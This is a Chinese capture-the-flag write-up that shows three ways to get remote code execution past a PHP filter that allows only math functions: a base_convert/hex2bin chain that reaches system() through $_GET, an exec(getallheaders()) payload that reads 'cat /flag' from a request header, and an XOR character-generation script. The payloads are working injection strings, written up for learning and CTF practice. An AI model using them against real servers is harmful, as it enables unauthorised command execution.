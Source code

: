 

**方法一：利用数学函数运算得到函数和命令**

```
/index.php?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=<command>
```

*分析：*

```
base_convert(37907361743,10,36) => "hex2bin"
dechex(1598506324) => "5f474554"
$pi=hex2bin("5f474554") => $pi="_GET"   //hex2bin将一串16进制数转换为二进制字符串
($$pi){pi}(($$pi){abs}) => ($_GET){pi}(($_GET){abs}) //{}可以代替[]

```

**方法二：拼凑出getallheaders利用HeaderRCE**

> getallheaders — 获取全部 HTTP 请求头信息

![](https://raw.githubusercontent.com/npfs06/Images/main/img/buu56-2.jpg)

```
/index.php?c=$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})

然后抓包在请求头中添加 1：cat /flag

```

分析

```
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy

```

**方法三：异或**

```php
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "       ";
        }
    }
}
?>
```
